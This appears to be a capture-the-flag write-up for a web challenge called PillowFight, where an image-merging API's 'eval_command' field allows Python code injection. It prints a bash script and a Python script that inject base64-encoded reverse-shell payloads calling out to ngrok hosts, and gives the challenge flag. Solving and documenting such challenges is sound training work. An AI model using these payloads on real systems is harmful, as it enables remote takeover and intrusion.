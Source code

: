 ## Name: PillowFight
#### Author: @HuskyHacks
#### Category: Web
#### Difficulty: N/D
#### Description: PillowFight uses advanced AI/MLRegressionLearning* to combine two images of your choosing
*note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise.

## Procedure
The website ask for two png file to merge, for this it uses Python Pillow 8.4.0.

![Screenshot 2024-10-25 at 1 30 11 PM](https://github.com/user-attachments/assets/1a5f138c-4531-47b5-a0d1-60ae10e5c71c)

The API documentation we can see the path ```combine``` this allow only ```http POST request```, this ask for ```image1```, ```image2``` but has another interesting input ```eval_command``` this allows us to execute an RCE.
![Screenshot 2024-10-25 at 3 11 54 PM](https://github.com/user-attachments/assets/1e6821bb-64f1-4484-bd11-73f0a661c7df)

we can get our shell with the following bash script, we need to use ngrok to get the shell
```
#!/bin/bash

revshell=$(echo -n "sh -i >& /dev/tcp/2.tcp.ngrok.io/18745 0>&1"|base64)
payload="__import__('os').system('echo $revshell| base64 -d | bash')"
echo "payload = $payload"

curl -X POST "http://challenge.ctf.games:32742/combine" \
-H  "accept: image/png" -H  "Content-Type: multipart/form-data" \
-F "image1=@image.png;type=image/png" -F "image2=@image.png;type=image/png" \
-F "eval_command=$payload"

```

We have already ```root``` permission, so just need to read our flag.txt file.
![Screenshot 2024-10-25 at 3 13 02 PM](https://github.com/user-attachments/assets/d31bec9a-c1b7-4b78-a140-3d58137e3203)

![Screenshot 2024-10-25 at 3 13 28 PM](https://github.com/user-attachments/assets/091f3c11-c8e1-4150-a12c-1aa232642993)


flag ```flag{b6b62e6c5cdfda3b3a8b87d90fd48d01}```


### Bonus
Another way to get the shell but with a python script
```
import requests

url = "http://challenge.ctf.games:30550/combine"

file_png = open('image.png', 'rb').read()
files = {
    "image1": file_png,
    "image2": file_png
}

eval_command2 = f"__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTA1NzIgMD4mMQ== | base64 -d | bash')"

data= {
    "eval_command": eval_command2
}

res = requests.post(url,files=files,data=data)
print(res.text)
```

